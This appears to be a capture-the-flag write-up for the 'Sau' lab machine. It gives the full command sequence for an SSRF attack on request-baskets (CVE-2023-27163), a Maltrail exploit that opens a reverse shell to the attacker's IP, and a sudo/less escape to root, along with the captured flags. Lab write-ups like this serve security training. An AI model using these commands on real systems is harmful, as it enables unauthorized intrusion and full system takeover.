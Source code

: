 # Sau
#activemachine 
#easy 
#web 
### Reconnaissance
We started by running the command `nmap -sV -v $TARGET` to gather information about the target system. The output showed us the open ports, services, and version information. We noticed that port 22 (SSH) was open, also the port 80 (HTTP), lastly the port 55555 is also open.
```
Nmap scan report for 10.10.11.224
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp    filtered http
55555/tcp open     unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=11/29%Time=65670DDA%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Wed,\x2029\x20Nov\x2
SF:02023\x2010:09:29\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/
SF:web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x20
SF:200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Wed,\x2029\x20Nov\x2
SF:02023\x2010:09:29\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReques
SF:t,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain
SF:;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request
SF:")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n
SF:Connection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20
SF:charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(
SF:Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nDate:\x20Wed,\x2029\x20Nov\x202023\x2010:09:55\x20GMT\
SF:r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20na
SF:me\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$
SF:\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x2
SF:0Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.59 seconds

```
### Web Application Analysis

We start by analyzing the web application on port 80. If we try to access we realize that the web server is not loading properly, which suggests that there may be an issue with the application or its configuration. We decide to investigate further by attempting to enter the web which is running in the port 55555.
Once inside we can see that the web is Powered by [request-baskets](https://github.com/darklynx/request-baskets) | Version: 1.2.1, which is a popular web application framework for Linux.

Next, we search for known vulnerabilities in the application and find a [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) vulnerability in the request-baskets package. This vulnerability allows an attacker to access network resources and sensitive information via a crafted API request, which could potentially lead to a full compromise of the system.

To exploit this vulnerability, we craft a specially formed JSON payload that will be sent to the web application. This command will create a basket that allow us to enter the web-server running in port 80 even if it is set to don't allow any access that doesn't come from localhost, allowing us to gain control of the server. We use the `curl` command to send the payload to the web server. The full command is `curl --location "http://${TARGET}:55555/api/baskets/a" --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'`
```
{"token":"ZP12n1WrM9BeOaO3gYXcca_63YdHGtHuiAnR_lkTLPEL"}
```

The output shows that the exploit was successful, and now we can enter the hidden website, to do so we enter to the following URL http://10.10.11.224:55555/a .

Once inside we can see that this website is running Maltrail (v**0.53**), as we know the exact program and version we can search for any known vulnerabilities, which led us to find https://github.com/spookier/Maltrail-v0.53-Exploit.
To execute the vulnerability we start by setting our local listener for the reverse shell `nc -lvnp 4444`, now we exploit the vulnerability by running `python3 exploit.py 10.10.14.60 4444 http://10.10.11.224:55555/a`

As we have a brand new shell we improve it and check who we are  `python3 -c 'import pty;pty.spawn("/bin/bash")'`, `whoami`
```
puma
```
It seems that we are a normal user so we read the user flag `cat ~/user.txt`
```
bc82979f0ee6e1164a1e822a76202bc8
```
### Privilege escalation
With our newfound control of the web server, we can now attempt to escalate our privileges to gain access to other systems on the network. We start by running the `id` command to verify our current user and group IDs. The output shows that we are currently running as the user `puma`, with a group ID of 1001.
```
uid=1001(puma) gid=1001(puma) groups=1001(puma)
```

Next, we use the `sudo -l` command to check for any default privileges that we may have been granted. The output shows that we have been granted the ability to run the `systemctl` command without a password, which could potentially be used to gain access to other systems on the network.
```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

The output of `sudo /usr/bin/systemctl status trail.service` will be shown with less so we check if we can use that to perform the escalation. https://gtfobins.github.io/gtfobins/less/
It seems that we can so we run the command abd when given the option to write, we write `!/bin/sh` which will grant us a root terminal, to check this we run `whoami`
```
root
```
Lastly we get the root flag `cat /root/root.txt`
```
6b5250953d0e2301dc5920aa7cd8de15
```